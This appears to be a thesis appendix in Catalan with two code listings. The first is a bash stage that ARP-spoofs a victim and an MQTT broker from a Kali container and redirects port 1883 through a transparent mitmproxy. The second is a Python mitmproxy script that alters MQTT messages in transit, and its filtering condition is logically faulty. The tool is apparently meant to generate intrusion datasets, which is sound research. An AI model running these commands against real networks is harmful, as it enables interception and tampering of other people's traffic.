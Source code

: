 \begin{lstlisting}[language=bash, caption={Eina automatitzada per a la generació de datasets}, label=lst:tool]
#7- Arp spoof i MITM proxy
if [ "\$flag_mitm" = true ]; then
    echo -e "\n executant arp spoofing \n"
    sudo docker run -d --name mitm  --privileged --network host -v "\$(pwd)/escaner":/home kalitfg sleep infinity
    sudo docker exec -it mitm bash -c "apt update && sysctl -w net.ipv4.ip_forward=1 && iptables -t nat -A PREROUTING -p tcp --dport 1883 -j REDIRECT && iptables -t nat -A POSTROUTING -p tcp --dport 1883 -j SNAT --to-source \$ip_victima"
    sudo docker exec -d mitm bash -c "arpspoof -i \$interface -t \$ip_victima -r \$ip_broker"
    sudo docker exec -it mitm bash -c "mitmproxy --mode transparent --listen-port 1883 --tcp-hosts '.*' -s /home/mqtt_mitm.py"
    #sudo docker exec -d mitm bash -c "bettercap -iface wlp42s0 -eval \"set arp.spoof.fullduplex true; set arp.spoof.targets \$ip_victima; arp.spoof on\""
    #sudo docker exec -it mitm bash -c "apt update && apt install -y bettercap && bettercap -iface wlp42s0 -eval \"set tcp.proxy.port 1883 ; set tcp.address '\$ip_broker' ; set tcp.port 1883 ; tcp.proxy on ; set arp.spoof.internal true ; set arp.spoof.targets '\$ip_victima', '\$ip_broker' ; arp.spoof on\""
fi

while true; do #per apagar el docker amb Ctl+C
    sleep 1
done     

\end{lstlisting}

\begin{lstlisting}[language=Python, caption={Script de modificació de missatges en mitmproxy}, label=ScriptMITM]
from mitmproxy import tcp

def tcp_message(flow: tcp.TCPFlow):
    data = flow.messages[-1].content
    try:
        if b"test" and not flow.messages[-1].from_client in data:
            print("[+] Mensaje original:", data)
            data_mod = data.replace(b'"test":1', b'"test":5')
            flow.messages[-1].content = data_mod
            print("[+] Mensaje modificado:", data_mod)
    except Exception as e:
        print("[!] Error procesando mensaje:", e)
\end{lstlisting}



